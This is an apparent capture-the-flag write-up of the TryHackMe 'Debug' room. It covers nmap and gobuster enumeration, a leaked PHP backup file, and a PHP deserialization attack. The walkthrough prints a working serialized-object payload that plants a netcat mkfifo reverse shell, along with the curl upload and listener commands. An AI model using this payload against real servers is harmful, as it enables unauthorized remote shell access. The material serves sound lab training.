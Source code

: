 ```yaml
---
title: Debug
layout: post
author: Bit Criminals Team
date: 2021-06-11 12:07:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/debug
---
```


First, connect to TryHackMe using OpenVPN (or use the AttackBox if you prefer that)start the machine from tryhackme, wait for one minute so that the IP Address shows. Now, we are reading to do our hacking!

## TASK 1

The task is to deploy the box, which we have already done. So click on **Completed** and move on.

## TASK 2

First, let's do a basic nmap scan:
```shell
nmap -Pn -A <machine_ip>
```

![](/images/v1per/Debug_1.png)

So, we get 2 open ports: **Port 22 (SSH)** and **Port 80 (HTTP)**

We can see that there's a web-server open, so let's visit the website.
**http://<machine_ip>:80**

![](/images/v1per/Debug_2.png)

It's an Apache2 Ubuntu Default page. Nothing much in here. Let's run gobuster in directory busting mode to find some hidden directories.

```shell
gobuster dir -u <box_ip> -w /usr/share/wordlists/dirb/common.txt -z -x html,txt,php
```

![](/images/v1per/Debug_3.png)

We find a **/backup** directory. Let's visit it: **http://<machine_ip>:80/backup**

![](/images/v1per/Debug_4.png)

The file which stands out here is the **index.php.bak** (backup files always contain something fishy). Let's download it and see it's contents.
This part stood out:

![](/images/v1per/Debug_5.png)

So, our best guess at this moment is a PHP Deserialization attack. 
Note that we also found a **/index.php** from gobuster. Visiting it, we see a Form Submit area. 

![](/images/v1per/Debug_6.png)

Filling it with arbitrary values and submitting it, we see that it gets displayed in **http://<machine_ip>:80/message.txt**, which is what the PHP file we found is doing. I wrote this PHP code for the attack (replace <your_tun0_ip> with, well, what it says):

```php
<?php
class FormSubmit{
        public $form_file = 'lol.php';
        public $message = '<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_tun0_IP> 1234 >/tmp/f"); ?>';
}
$obj = new FormSubmit();
echo urlencode(serialize($obj));
?>
```

Now, run the PHP file using:
```shell
php <your_php_file.php>
```

![](/images/v1per/Debug_7.png)

Copy this output, and run the following command to upload our payload:
```shell
curl -i http://<machine_ip>:80/index.php?debug=<copied_text>
```
or just visit the following website:
**http://<machine_ip>:80/index.php?debug=<copied_text>**

![](/images/v1per/Debug_8.png)

Now, let's set up a netcat listener on our terminal:
```shell
nc -lnvp 1234
```
and navigate to **http://<machine_ip>:80/lol.php**.
And YAY! We have got our shell!

![](/images/v1per/Debug_9.png)

